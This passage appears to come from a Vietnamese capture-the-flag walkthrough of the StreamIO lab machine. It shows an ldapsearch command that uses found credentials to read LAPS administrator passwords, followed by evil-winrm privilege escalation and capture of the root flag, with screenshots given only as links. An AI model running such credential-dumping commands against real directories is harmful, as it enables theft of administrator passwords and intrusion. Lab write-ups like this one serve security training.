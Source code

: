 hoặc dùng ldapsearch

ldapsearch -h 10.10.11.158 -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

![https://lh7-us.googleusercontent.com/kYK2_QrH1q2OYZO58BINyxOL8n_FgjVYjqM1RJ4MwfwLCwh_9I5RkNJP8J8Ttz3wS3O_cWcLRz20mQRpX9wKWTEWSd_AQJwa8BlW3tZ19FPSA332EAgkJo_UQNHY9nB6JZB0p6vRrKCm](https://lh7-us.googleusercontent.com/kYK2_QrH1q2OYZO58BINyxOL8n_FgjVYjqM1RJ4MwfwLCwh_9I5RkNJP8J8Ttz3wS3O_cWcLRz20mQRpX9wKWTEWSd_AQJwa8BlW3tZ19FPSA332EAgkJo_UQNHY9nB6JZB0p6vRrKCm)

dùng evil-winrm leo quyền administrator

![https://lh7-us.googleusercontent.com/yfhlJluxqyQ8iD3mUxnanFFuQXGtCawJWvWya5T7BsaA_1UgNir3e7xeiVCJWzCzLjjb6rKG3u_q2lrIT6RPsHAn-RUG8FmZFoLZR2Jn97HZ7M7e3BiBIWuO_1DErhmLlPVUW0hxr1h4](https://lh7-us.googleusercontent.com/yfhlJluxqyQ8iD3mUxnanFFuQXGtCawJWvWya5T7BsaA_1UgNir3e7xeiVCJWzCzLjjb6rKG3u_q2lrIT6RPsHAn-RUG8FmZFoLZR2Jn97HZ7M7e3BiBIWuO_1DErhmLlPVUW0hxr1h4)

lấy flag root

![https://lh7-us.googleusercontent.com/we30bD3JTaT0mHwNJ-NHYNftHN_-bLYZtpOuBYkXwxn2dGL7wmGqLC-qmimtGdCuSytMVKMimWea998wTqto0eP9D4bYKXgcHJibshvq4LaQkAQ8OO2LV_S8evDD26Y1LXekm_HIWOIx](https://lh7-us.googleusercontent.com/we30bD3JTaT0mHwNJ-NHYNftHN_-bLYZtpOuBYkXwxn2dGL7wmGqLC-qmimtGdCuSytMVKMimWea998wTqto0eP9D4bYKXgcHJibshvq4LaQkAQ8OO2LV_S8evDD26Y1LXekm_HIWOIx)